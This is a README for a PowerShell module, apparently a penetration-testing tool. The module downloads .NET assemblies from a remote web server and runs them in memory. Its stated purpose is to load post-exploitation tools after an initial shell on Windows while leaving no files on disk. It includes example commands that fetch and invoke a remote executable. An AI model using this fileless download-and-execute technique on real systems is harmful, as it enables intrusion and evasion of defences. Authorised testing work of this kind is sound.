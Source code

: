 # PowerAssembly

Map in current PowerShell Instance Memory .NET Assemblies from remote web server.

When Assembly is mapped, you can invoke it's main with a command line argument.

The advantage of this technique is to avoid having assemblies written on disk. Everything happens in memory.

I'm using this script during my penetration tests / labs right after getting an initial shell on Windows to load other .NET Tools (Ex: ShapHound, ShapUp etc..)

# Prepare

You can use this code whether as a PowerShell Module or Classic Script.

## As a module

Choose an existing PowerShell Module Folder (see `echo $env:PSModulePath`)

Create a folder called `PowerAssembly` and place the `PowerAssembly.psm1` module inside of this new folder.

Open a new PowerShell Window and enter `Import-Module PowerAssembly`

The module is now ready for use with available functions:

* Get-MappedAssembliesList 
* Invoke-Assembly
* Get-RemoteAssembly

## As a script

You can for example copy / paste the whole `PowerAssembly.psm1` code in a new Powershell Window and enjoy offered functionalities.

## Use It

### Get-RemoteAssembly

Retrieve a .NET Assembly hosted in a remote web server.

URI must be a valid .NET Assembly file otherwise this function will raise an error.

Example: 

`Get-RemoteAssembly -RemoteAddress http://127.0.0.1/MyAssembly.exe`

or simply

`Get-RemoteAssembly http://127.0.0.1/MyAssembly.exe`

### Get-MappedAssembliesList 

Return the list of successfully mapped assemblies with its index number. Index is important to define which assembly to invoke using `Invoke-Assembly` function.

`Get-MappedAssembliesList`

### Invoke-Assembly

Invoke the main function of a target mapped assembly (defined by its index, see `Get-MappedAssembliesList`)

Example:

`Invoke-Assembly -mappedIndex 1 -argumentLine "Arg1 Arg2 Arg3"`

Notice: Index `0` = `1`

![Demo](Images/demo.png)

